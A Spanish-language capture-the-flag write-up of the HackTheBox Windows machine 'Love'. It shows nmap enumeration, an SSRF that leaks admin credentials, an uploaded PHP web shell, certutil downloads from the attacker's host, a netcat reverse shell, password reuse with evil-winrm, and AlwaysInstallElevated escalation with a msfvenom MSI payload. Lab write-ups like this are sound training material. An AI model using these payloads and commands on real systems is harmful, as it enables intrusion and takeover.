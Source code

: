 ```yaml
---
layout      : post
title       : "HackTheBox - Love"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344banner.png
category    : [ htb ]
tags        : [ .msi, arbitrary-file-upload ]
---
```

Máquina **Windows** nivel fácil, escanearemos archivos locales (**localhost**) en busca de malware e.e Encontraremos credenciales y generaremos votantes con fotos de perfil peligrosas... Jugaremos con registros e instalaremos paquetes **MSI** algo traviesos.

![344loveHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344loveHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [pwnmeow](https://www.hackthebox.eu/profile/157669).

Caminos para caminantes con caminos caminantes e.e

Nos enfrentaremos a un servicio web con dos logins, uno de ellos nos permite jugar con usuarios y contraseñas, enumerando un dominio distinto al default, llegamos a una web que escanea archivos en búsqueda de malware, el archivo se lo debemos pasar por medio de una **URL**, jugaremos con esto para ver recursos locales (`http://localhost`) a los que externamente no tenemos acceso, en esa labor lograremos enumerar un servicio web alojado en el puerto **5000** (`http://localhost:5000`), de él encontraremos unas credenciales para un usuario llamado **admin**, las usaremos contra uno de los login y entraremos a una plataforma que administra un sistema de votaciones...

Estando dentro podremos agregar **votantes**, a cada votante se le puede adjuntar una imagen de perfil, usaremos esto para agregar un objeto `.php` que nos permita ejecutar código remotamente, mediante él lograremos una **Reverse Shell** como el usuario `phoebe` en la máquina.

***Hice un script que nos crea el votante, ejecuta comandos en el sistema y hace como si no hubiera pasado nada e.e***

> [arbitrary_up_RCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/love/arbitrary_up_RCE.py).

Estando dentro nos apoyaremos de varias guías sobre **PrivEsc Windows** para encontrar un tipo de escalada llamada **AlwaysInstallElevated**, tendremos que jugar con 2 registros del sistema y validar si están habilitados, en caso de que lo estén podremos instalar paquetes `MSI` con permisos administrativos. Veremos que lo están, así que generaremos un paquete **MSI** malicioso con ayuda de `msfvenom` que una vez se esté instalando nos genere una **Reverse Shell**. Con esto lograremos una Shell como el usuario `NT AUTHORITY SYSTEM` (diosito) en el sistema.

***Yyyy un `autopwn`, con él conseguimos una Shell en el mismo script como el usuario `administrador` del sistema.***

> [autopwnLove.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/love/autopwnLove.py).

Basta, a rompernos la cara!! e.e

...

#### Clasificación de la máquina

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Más o menos de todo, intenta jugar con vulns conocidas, pero es bastante juguetona.

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo plasmar lo que hice.

...

Es momento de diversificar los distintos pensamientos...

1. [Reconocimiento](#reconocimiento).
  * [Escaneo de puertos con **nmap**](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Enumeración servidor web - puerto 80](#puerto-80).
  * [Enumeración certificado web - puerto 443](#puerto-443).
3. [Explotación](#explotacion).
  * [Encontrando credenciales del usuario **admin** contra un login web](#enum-creds-admin).
  * [RCE mediante una subida aleatoria de archivos - usuario **Phoebe**](#rce-php-file).
  * [Obtención de credenciales usuario **Phoebe** para generar una Shell estable con **evil-winrm**](#phoebe-evilrm).
4. [Escalada de privilegios](#escalada-de-privilegios).
5. [Post PrivEsc - Usamos **mimikatz** para extraer hashes **NTLM** y hacer *passthehash*](#post-privesc-ntlm-hashes).
  * [Pass-The-Hash - evil-winrm](#post-privesc-pth-winrm).
  * [Pass-The-Hash - psexec.py](#post-privesc-pth-psexec).

...

## Reconocimiento [#](#reconocimiento) {#reconocimiento}

---

### Enumeración de puertos con **nmap** [🔗](#enum-nmap) {#enum-nmap}

Como siempre iniciaremos escaneando los puertos abiertos de la máquina, así empezaremos a encaminar nuestra investigación:

```bash
❱ nmap -p- --open -v 10.10.10.239 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

El escaneo nos devuelve:

```bash
❱ cat initScan
# Nmap 7.80 scan initiated Mon Jun 21 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.239
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.239 ()	Status: Up
Host: 10.10.10.239 ()	Ports: 80/open/tcp//http///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 443/open/tcp//https///, 445/open/tcp//microsoft-ds///, 3306/open/tcp//mysql///, 5000/open/tcp//upnp///, 5040/open/tcp//unknown///, 5985/open/tcp//wsman///, 5986/open/tcp//wsmans///, 7680/open/tcp//pando-pub///, 49664/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49668/open/tcp/////, 49669/open/tcp/////, 49670/open/tcp/////
# Nmap done at Mon Jun 21 25:25:25 2021 -- 1 IP address (1 host up) scanned in 85.24 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 80     | **[HTTP](https://searchnetworking.techtarget.com/definition/port-80)**: Servidor web |
| 135    | **[RPC](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc)**: Permite la comunicación entre programas |
| 139    | **[SMB](https://www.varonis.com/blog/smb-port/)**: Ayuda a la transferencia de archivos en la red |
| 443    | **[HTTPS](https://es.wikipedia.org/wiki/Protocolo_seguro_de_transferencia_de_hipertexto)**: Servicio web "seguro" |
| 445    | **[SMB](https://www.varonis.com/blog/smb-port/)**: Ayuda a la transferencia de archivos en la red |
| 3306   | **[MySQL](https://neoattack.com/neowiki/mysql/)**: Servidor de bases de datos |
| 5000   | No lo sabemos aún con certeza |
| 5985   | **[WinRM](https://geeks.ms/eliasmereb/2011/04/14/introduccin-a-winrm-para-windows-server-2008-r2/)**: Permite realizar tareas administrativas remotamente |
| 5986   | **[WinRM (HTTPS)](https://geeks.ms/eliasmereb/2011/04/14/introduccin-a-winrm-para-windows-server-2008-r2/)**: Permite realizar tareas administrativas remotamente |
| 7680   | No lo sabemos a ciencia cierta |
| 5040,49664,49666,49667 | Desconocidos |
| 49668,49669,49670      | Desconocidos |

Bastantes puertos, ahora juntando todos los servicios activos vamos a hacer otro escaneo, pero este para obtener las versiones de cada servicio y si existen scripts relacionados con ellos:

**~(Usando la función `extractPorts` (referenciada antes) podemos copiar rápidamente los puertos en la clipboard, así no tenemos que ir uno a uno**
 
```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.10.239
    [*] Open ports: 80,135,139,443,445,3306,5000,5040,5985,5986,7680,49664,49666,49667,49668,49669,49670

[*] Ports copied to clipboard
```

**)~**

```bash
❱ nmap -p 80,135,139,443,445,3306,5000,5040,5985,5986,7680,49664,49666,49667,49668,49669,49670 -sC -sV 10.10.10.239 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

En este caso obtenemos:

```bash
❱ cat portScan
# Nmap 7.80 scan initiated Mon Jun 21 25:25:25 2021 as: nmap -p 80,135,139,443,445,3306,5000,5040,5985,5986,7680,49664,49666,49667,49668,49669,49670 -sC -sV -oN portScan 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up (0.11s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LPDString, NULL, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host '10.10.14.103' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-06-21T16:28:22+00:00; +25m20s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
49664/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.80%I=7%D=6/21%Time=60D0B785%P=x86_64-pc-linux-gnu%r(NU
...
...
...
...x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h10m20s, deviation: 3h30m02s, median: 25m19s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-06-21T09:28:08-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-21T16:28:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 21 25:25:25 2021 -- 1 IP address (1 host up) scanned in 182.94 seconds
```

Tenemos algunas cositas relevantes:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 80     | HTTP     | Apache httpd 2.4.46 OpenSSL/1.1.1j PHP/7.3.27 |
| 443    | HTTPS    | Apache httpd 2.4.46 OpenSSL/1.1.1j PHP/7.3.27 |

* Además de un dominio: `staging.love.htb`.
* Y un nombre de organización: `ValentineCorp`.

---

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 445    | SMB      | Windows 10 Pro 19042 |
| 5000   | HTTP     | Servidor web con Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27) |

Listones, hemos terminado nuestra enumeración con **nmap**, ahora profundicemos en cada servicio y veamos en cuál tenemos posibilidad de romper cositas...

...

## Enumeración [#](#enumeracion) {#enumeracion}

---

### Puerto 80 [🔗](#puerto-80) {#puerto-80}

![344page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80.png)

Un login... Intentando distintos ID's nos responde con esto:

> Cannot find voter with the ID

Así que podríamos intentar algún tipo de fuerza bruta para encontrar si algún **ID** nos devuelve una respuesta distinta, peeero antes, podemos probar a agregar el dominio que encontramos en el escaneo de **nmap** al archivo `/etc/hosts` y ver si nos responde algo al hacer peticiones hacia él:

```bash
❱ cat /etc/hosts
...
10.10.10.239  staging.love.htb
...
```

> [¿Que es el archivo **hosts**?](https://www.ionos.es/digitalguide/servidores/configuracion/archivo-hosts/).

Y ahora en la web pondríamos el dominio:

![344page80staging](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging.png)

Perfecto, tenemos otro servicio que esta respondiendo contra ese dominio, así que ahora tenemos más para probar... **(Lo del fuzzeo por ID's no nos dio ninguna respuesta, así que F)**

Se trata de un servidor web en producción aún que se encarga de analizar archivos en busca de malware y cositas así, dirigiéndonos al apartado **Demo** (arriba a la izquierda) nos lleva a `/beta.php`:

![344page80staging_betaPHP](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP.png)

En él podemos añadir un archivo mediante una **URL** y la web hará el respectivo escaneo del objeto en busca de malware...

Después de jugar con este apartado no logramos nada interesante (ni **reverse shells**, ni archivos `.php` con instrucciones simples (`echo 'hola';`), ni `.exe`'s, nada de eso nos funcionó), peeero sabemos que esta funcionando y que además algunos archivos `.php` los interpreta, ¿cómo lo sabemos?, sencillito... 

Escaneamos el archivo `index.php` del servidor local, que sería el correspondiente a `http://10.10.10.239/index.php`:

![344page80staging_betaPHP_localhost](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP_localhost.png)

Y nos responde con su **body**:

![344page80staging_betaPHP_localhost_res](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP_localhost_res.png)

Pero poquito poquito podemos hacer con esto...

Jugando con `dirsearch` y `wfuzz` para realizar un fuzzeo en la web principal (`http://10.10.10.239`) encontramos varios recursos más, pero solo algunos interesantes (y a los que tenemos acceso):

```bash
❱ wfuzz -c --hc=404,403 -w /opt/SecLists/Discovery/Web-Content/common.txt http://10.10.10.239/FUZZ
```

![344bash_fuzz_page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_fuzz_page80.png)

Visitando `/admin` obtenemos otro login, pero ahora nos pide usuario y contraseña... 

![344page80_admin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin.png)

Probando con los de siempre, nos damos cuenta de que al colocar cualquier cosa en el campo **Username**, nos responde con:

> Cannot find account with the username

Pero al colocar el usuario **admin** nos devuelve:

> Incorrect password

Así que sabemos que el usuario **admin** existe en la base de datos (:

Visitando el recurso `/includes` vemos una lista de archivos:

![344page80_includes_list](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_includes_list.png)

Dando clic en `navbar.php` encontramos un error, y en ese error la ruta absoluta donde esta alojado el servidor web:

![344page80_includes_navbar](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_includes_navbar.png)

No podemos hacer nada con esto, peeeeeero puede llegar a ser importante en caso de querer subir archivos o algo así. Guardao'...

...

### Puerto 443 [🔗](#puerto-443) {#puerto-443}

Después de nuestra enumeración con el puerto 80, nos pondremos a enumerar el servicio **HTTPS**, colocando en el navegador `https://10.10.10.239` nos responde que no tenemos acceso a ese recurso :( Peeero podemos apoyarnos de `openssl` para ver información del certificado **SSL** con el que se cuenta:

```bash
❱ openssl s_client -connect 10.10.10.239:443
```

Al ejecutarlo podemos destacar el dominio que ya habíamos visto con **nmap**, pero también un **email**:

```bash
...
depth=0 C = in, ST = m, L = norway, O = ValentineCorp, OU = love.htb, CN = staging.love.htb, emailAddress = roy@love.htb
...
```

Bien, podemos extraer el usuario `roy` del email...

Probando con él ante **SMB** y ante los demás recursos no logramos alguna otra respuesta a las que teníamos, pero bueno, guardémoslo por si algo (:

...

## Explotación [#](#explotacion) {#explotacion}

---

### Encontrando credenciales del usuario <u>admin</u>, login web [🔗](#enum-creds-admin) {#enum-creds-admin}

Después de un tiempo de estar perdido y sin esperanzas e.e 

Estuvimos jugando con los demás puertos activos, nos dimos cuenta de que al realizar peticiones hacia la `http://10.10.10.239:5000` volvíamos a recibir:

> You don't have permission to access this resource.

Acá recordé lo que habíamos hecho con el analizador de archivos (que habíamos escaneado un objeto **local**), intentando en vez de escanear el `index.php`, hacerlo contra el `index.php` pero del servidor **web** alojado en el puerto **5000** (que ni idea si exista), curiosamente obtenemos una respuesta:

![344page80staging_betaPHP_localhost5000](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP_localhost5000.png)

![344page80staging_betaPHP_localhost5000_res](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP_localhost5000_res.png)

Encontramos que el servicio del puerto **5000** es uno relacionado con **passwords** yyy vemos una para el usuario **admin** (que sabíamos que existía), pues probémoslas:

* Username: `admin`.
* Password: `@LoveIsInTheAir!!!!`.

![344page80_admin_login_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_login_done.png)

Listones, son válidas 🤼

---

### RCE mediante una subida aleatoria de archivos [🔗](#rce-php-file) {#rce-php-file}

Jugando nos damos cuenta de que podemos agregar **votantes**

![344page80_admin_addvoters](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_addvoters.png)

Damos clic en **New** y vemos:

![344page80_admin_addvoters_form](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_addvoters_form.png)

Podemos añadir una imagen de perfil 😏 pues en vez de una imagen, intentemos subir un archivo `.php` con código que nos permita ejecutar comandos en el sistema:

```bash
❱ cat quesedice.php 
<?php $command=shell_exec($_GET['xmd']); echo $command; ?>
```

Lo que reciba la variable `xmd` a través del método [**GET**](https://www.ionos.es/digitalguide/paginas-web/desarrollo-web/get-vs-post/), será ejecutado en el sistema (gracias a la función `shell_exec()`, pero podríamos usar `system()`, `exec()` y otras más), el resultado de la ejecución se guarda en la variable `command` y mostrado en pantalla con ayuda de `echo`. Por ejemplo, si somos el usuario **web** y hacemos `xmd=whoami`, se ejecutara `whoami` en el sistema y guardara **web** en la variable `command`, lo siguiente será ver ese resultado con el `echo $command`.

Nuestro formulario quedaría así (en mi caso):

![344page80_admin_addvoters_form_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_addvoters_form.png)

Guardamos y:

![344page80_admin_addvoters_lanz](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_addvoters_lanz.png)

Vemos el icono de la imagen en todo el centro, la arrastramos (como si quisiéramos abrirla en otra ventana) y nos redirige a la URL `http://10.10.10.239/images/quesedice.php`:

![344page80_images_quesedicePHP](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_images_quesedicePHP.png)

Al parecer esta interpretando el código, solo que `shell_exec` esta vacío y nos muestra ese error, juguemos con el método **GET** para ejecutar el comando `whoami`:

```html
http://10.10.10.239/images/quesedice.php?xmd=whoami
```

Obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_images_quesedicePHP_whoami.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Opa, tenemos ejecución remota de comandos (: El usuario que esta ejecutando el servidor web se llama `phoebe`, por lo tanto vamos a estar ejecutando comandos como ese usuario (:

**Ya confirmamos *RCE*, ahora entablémonos una Reverse Shell:**

Podemos descargar el binario `nc.exe` desde [acá](https://eternallybored.org/misc/netcat/) (netcat 1.12), una vez los tengamos en nuestro sistema, los movemos o nos movemos donde estén los binarios y levantamos un servidor web con ayuda de **Python**:

```bash
❱ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ahora procedemos a indicarle a la máquina que se descargue el binario `nc.exe` y lo guarde en su sistema:

```html
http://10.10.10.239/images/quesedice.php?xmd=certutil.exe -f -split -urlcache http://10.10.14.103:8000/nc.exe c:\\Users\\phoebe\\Videos\\nc.exe
```

Guardamos el binario en la carpeta **Videos** del usuario **phoebe**... La web nos responde:

```html
**** Online **** 0000 ... 96d8 CertUtil: -URLCache command completed successfully. 
```

Validamos que se haya descargado y exista en el sistema:

```html
http://10.10.10.239/images/quesedice.php?xmd=dir c:\Users\phoebe\Videos\nc.exe
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_images_quesedicePHP_dir_videos.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listones, ahora simplemente le indicamos que una vez entable una conexión con el puerto **4433** de nuestra máquina nos lance por ahí una `cmd.exe` (una terminal de **Windows**).

**Pero claro, antes tenemos que ponernos en escucha por el puerto **4433**:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

Ahora sí, procedamos:

```html
http://10.10.10.239/images/quesedice.php?xmd=c:\Users\phoebe\Videos\nc.exe 10.10.14.103 4433 -e cmd.exe
```

YyyyyYyaysdfyyayyYYYYyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_nc_phoebe_RevSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344google_gif_yeahslowgolf.gif" style="display: block; margin-left: auto; margin-right: auto; width: 70%;"/>

Peeeeeeeeerfecto, tamos con una terminal en el sistema como el usuario **phoebe**.

...

He creado un script para facilitar la ejecución remota de comandos, solo debemos pasarle el **comando** y no debemos preocuparnos de nada más (:

> [arbitrary_up_RCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/love/arbitrary_up_RCE.py).

...

### Obtención PowerShell estable con evil-winrm [🔗](#phoebe-evilrm) {#phoebe-evilrm}

Enumerando el sistema y la raíz del servidor web, encontramos el archivo que hace la conexión con la base de datos:

```powershell
c:\\xampp\htdocs\omrs\includes>type conn.php
```

```php
<?php
        $conn = new mysqli('localhost', 'phoebe', 'HTB#9826^(_', 'votesystem');

        if ($conn->connect_error) {
            die("Connection failed: " . $conn->connect_error);
        }

?>
```

Tenemos al usuario **phoebe** y su contraseña contra el servicio **MySQL**... 

Pero haciendo reutilización de contraseñas y jugando con la herramienta [evil-winrm](https://github.com/Hackplayers/evil-winrm) logramos obtener una **PowerShell** como el usuario **Phoebe** en el sistema:

```bash
❱ evil-winrm -i 10.10.10.239 -u 'phoebe' -p 'HTB#9826^(_'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_evilwinrm_phoebe.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Así que ya podemos salirnos de la **Reverse Shell** (:

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Enumerando el sistema por encima buscando formas de escalar no encontramos nada interesante, o bueno, encontramos una carpeta algo "llamativa" en la raíz del sistema:

```powershell
*Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         4/21/2021   9:52 AM                Administration
...
```

Dentro hay unos objetos, pero nada que sacar de ellos, así que tamos igual...

De ahí me fui para la web y busqué algunas guías sobre **PrivEsc Windows**, llegamos a esta de [HackTricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation), allí encontramos una manera de escalar llamada [AlwaysInstallElevated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated), en la cual debemos validar si dos [registros del sistema](https://es.wikipedia.org/wiki/Registro_de_Windows) están habilitados (que tengan el valor `0x1`), en caso de que lo estén tendremos la posibilidad de instalar [Microsoft Windows Installer Package Files (MSI)](https://es.wikipedia.org/wiki/Windows_Installer) (paquetes **MSI**) con permisos administrativos así no los tengamos (: pues validemos los dos registros:

```powershell
*Evil-WinRM* PS C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Bien, siguiente:

```powershell
*Evil-WinRM* PS C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Perfecto, entonces tenemos la posibilidad de instalar paquetes **MSI** con permisos administrativos, apoyémonos de **msfvenom** para crear un paquete malicioso que cuando intente **instalarlo** nos genere una Reverse Shell:

> [cd6629.gitbook.io - windows privesc - AlwaysInstallElevated](https://cd6629.gitbook.io/ctfwriteups/windows-privesc#alwaysinstallelevated).

**Asignamos nuestra IP y el puerto en el que estaremos escuchando...**

```bash
❱ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.103 LPORT=4433 -f msi -o ajaterompi.msi
```

Ejecutamos y obtenemos el paquete:

```bash
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
Saved as: ajaterompi.msi
```

Ahora, subimos el paquete a la máquina víctima y procedemos a instalarlo:

```powershell
*Evil-WinRM* PS C:\Users\Phoebe\Videos> certutil.exe -f -urlcache -split http://10.10.14.103:8000/ajaterompi.msi c:\Users\Phoebe\Videos\ajaterompi.msi
```

> **Nos ponemos en escucha por el puerto 4433: `nc -lvp 4433`**

Ahora ejecutamos:

```powershell
*Evil-WinRM* PS C:\Users\Phoebe\Videos> msiexec /quiet /qn /i c:\Users\Phoebe\Videos\ajaterompi.msi
```

Donde (gracias a [vulp3cula.gitbook.io - privesc windows - AlwaysInstallElevated setting](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-windows#alwaysinstallelevated-setting)):

* `/quiet` permite **bypassear** el **control de cuentas de usuario ([UAC](https://java.com/es/download/help/uac.html))**.
* `/qn` le indica al programa que no nos ejecute una interfaz gráfica.
* `/i` es el que le dice que queremos hacer una **instalación** de un paquete.

Listo, entendiendo que estamos haciendo, procedemos a ejecutar la línea...

Pero no pasa nada ): Acá se me ocurrió que el problema podría ser **PowerShell**, así que volviendo a usar él [script]() para ejecutar comandos en el sistema, le decimos que nos ejecute esa línea:

```bash
❱ python3 arbitrary_up_RCE.py -c 'msiexec /quiet /qn /i c:\Users\Phoebe\Videos\ajaterompi.msi'
```

Y en nuestro listener:

![344bash_script_msiexec_adminSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_script_msiexec_adminSH.png)

Obtenemos la **Reverse Shell** como el usuario administrador del sistema (:

Recopilamos lo usado:

* [HackTricks - AlwaysInstallElevated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated).
* [cd6629.gitbook.io - windows privesc - AlwaysInstallElevated](https://cd6629.gitbook.io/ctfwriteups/windows-privesc#alwaysinstallelevated).
* [vulp3cula.gitbook.io - privesc windows - AlwaysInstallElevated setting](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-windows#alwaysinstallelevated-setting).

Veamos las flags...

